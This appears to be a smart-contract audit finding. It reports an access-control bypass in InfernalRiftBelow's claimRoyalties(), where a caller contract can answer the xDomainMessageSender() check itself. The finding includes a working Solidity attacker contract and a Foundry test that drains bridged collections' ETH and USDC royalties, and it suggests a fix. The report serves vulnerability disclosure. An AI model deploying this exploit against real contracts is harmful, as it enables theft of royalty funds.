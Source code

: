 Sour Amethyst Cricket

High

# Malicious contract can claim all L2 royalties on any collection through InfernalRiftBelow

## Summary

Improper access control in InfernalRiftBelow's [`claimRoyalties()`](https://github.com/flayerlabs/moongate/blob/main/src/InfernalRiftBelow.sol#L220) function allows anyone using a malicious contract to claim all royalties accrued to any L2 collection.

## Root Cause

[`claimRoyalties()`](https://github.com/flayerlabs/moongate/blob/main/src/InfernalRiftBelow.sol#L220) is a `public` function. At [`InfernalRiftBelow.sol:220`](https://github.com/flayerlabs/moongate/blob/main/src/InfernalRiftBelow.sol#L220), this function checks if `msg.sender` is `INFERNAL_RIFT_ABOVE` using the `.xDomainMessageSender()` callback on `msg.sender` wrapped with the `ICrossDomainMessenger` interface. If `claimRoyalties()` is called from a contract with a function `xDomainMessageSender()` that returns the address of `INFERNAL_RIFT_ABOVE`, access control is completely bypassed.

## Internal pre-conditions

L2 collections bridged from L1 with Infernal Rift have accrued royalties.

## External pre-conditions

Collections have been bridged using Infernal Rift.

## Attack Path

### 1. The Malicious Contract
This contract will call `claimRoyalties()` as if from a user account. When [`ICrossDomainMessenger(msg.sender).xDomainMessageSender()`](https://github.com/flayerlabs/moongate/blob/main/src/InfernalRiftBelow.sol#L222) is called, the callback receiver will return `address(riftAbove)`, bypassing the access control check.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IRiftBelow {
    function claimRoyalties(address _collectionAddress, address _recipient, address[] calldata _tokens) external;
}

contract AttackBelow {

    IRiftBelow riftBelow;
    address riftAbove;

    constructor(address _riftAbove, address _riftBelow) {
        riftBelow = IRiftBelow(_riftBelow);
        riftAbove = _riftAbove;
    }

    function attack(address collectionAddress, address attacker, address[] memory tokens) external {
        riftBelow.claimRoyalties(collectionAddress, attacker, tokens);
    }

    // Callback Receiver
    function xDomainMessageSender() external view returns (address) {
        return address(riftAbove);
    }

}
```

### 2. The Attack
Context is established according to the beginning of the `test_canClaimRoyalties()` test.

```solidity
function test_AttackBelow() public {
        // Set the royalty information for the L1 contract
        l1NFT.setDefaultRoyalty(address(this), 1000);

        // Create an ERC721 that implements ERC2981 for royalties
        _bridgeNft(address(this), address(l1NFT), 0);

        // Get our 'L2' address
        Test721 l2NFT = Test721(riftBelow.l2AddressForL1Collection(address(l1NFT), false));

        // Add some royalties (10 ETH and 1000 USDC) onto the L2 contract
        deal(address(l2NFT), 10 ether);
        deal(address(USDC), address(l2NFT), 1000 ether);

        // Set up our tokens array to try and claim native ETH
        address[] memory tokens = new address[](2);
        tokens[0] = address(0);
        tokens[1] = address(USDC);

        // BEGIN ATTACK
        vm.startPrank(BOB);

        // BOB is broke!
        assertEq(payable(BOB).balance, 0);
        assertEq(USDC.balanceOf(BOB), 0);

        // BOB tries to claim royalties on an arbitrary collection from his account, which reverts.
        vm.expectRevert();
        riftBelow.claimRoyalties(address(l1NFT), BOB, tokens);

        /* BOB writes a contract which calls claimRoyalties(), but contains the function xDomainMessageSender(),
        which will receive a callback and return address(riftAbove) */
        attackBelow = new AttackBelow(address(riftAbove), address(riftBelow));
        attackBelow.attack(address(l1NFT), BOB, tokens);

        vm.stopPrank();

        // No more royalties in l2NFT
        assertEq(payable(address(l2NFT)).balance, 0 ether);
        assertEq(USDC.balanceOf(address(l2NFT)), 0 ether);

        // BOB is no longer broke!
        assertEq(payable(BOB).balance, 10 ether);
        assertEq(USDC.balanceOf(BOB), 1000 ether);

        // claimRoyalties() can still be called on riftAbove in a legitimate context, but the money is gone.
        riftAbove.claimRoyalties(address(l1NFT), ALICE, tokens, 0);
        assertEq(payable(ALICE).balance, 0);
        assertEq(USDC.balanceOf(ALICE), 0);
        
    }
```

## Impact

Any royalties accrued to any L2 contract can be claimed by anyone using a malicious contract. A simple `for` loop with the right array of collection addresses could drain every single collection bridged with Infernal Rift in a single transaction. 

## PoC

See Attack Path

## Mitigation

I was able to prevent this attack from succeeding by declaring `error SenderNotPortal()` at the beginning of the contract and adding
```solidity
if (msg.sender != RELAYER_ADDRESS) {
            revert SenderNotPortal();
        }
```
at the beginning of `claimRoyalties()`.